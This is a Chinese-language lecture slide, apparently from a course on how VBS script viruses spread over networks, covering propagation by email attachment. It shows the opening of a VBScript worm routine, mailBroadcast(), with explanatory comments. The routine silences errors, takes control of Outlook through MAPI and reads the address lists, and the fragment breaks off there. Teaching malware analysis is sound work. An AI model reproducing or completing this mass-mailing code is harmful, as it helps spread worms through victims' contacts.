

# VBS脚本病毒通过网络传播的几种方式及代码分析
通过Email附件传播

Function mailBroadcast()
   on error resume next

   wscript.echo

   Set outlookApp = CreateObject("Outlook.Application")
                                       '创建一个OUTLOOK应用的对象
   If outlookApp= "Outlook" Then

      Set mapiObj=outlookApp.GetNameSpace("MAPI") '获取MAPI的名字空间

      Set addrList= mapiObj.AddressLists '获取地址表的个数